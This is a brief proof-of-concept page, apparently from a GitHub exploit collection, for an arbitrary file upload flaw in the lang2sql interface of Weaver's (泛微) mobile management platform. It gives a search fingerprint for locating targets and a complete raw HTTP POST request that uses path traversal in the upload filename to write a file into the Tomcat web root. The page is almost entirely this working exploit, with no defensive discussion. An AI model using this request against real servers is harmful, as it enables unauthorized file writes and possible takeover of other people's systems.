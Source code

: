 ## 泛微移动管理平台lang2sql接口任意文件上传

## 
```
web.title="移动管理平台"
```


## poc
```
POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Host: 目标地址
Content-Length: 202
Expect: 100-continue
Connection: close

------WebKitFormBoundarymVk33liI64J7GQaK
Content-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/9SIpL.txt"

b9Q2Itmn1
------WebKitFormBoundarymVk33liI64J7GQaK--
```
![0302764cce0476f1d9d11374c18c024b](https://github.com/wy876/POC/assets/139549762/84018feb-2591-45a6-bf0f-663f32e7d98f)

![5cd4ffd5a4d86ad03d7208e3cc646f86](https://github.com/wy876/POC/assets/139549762/62003fb2-0dea-4dde-87ad-4c4165cc55d8)
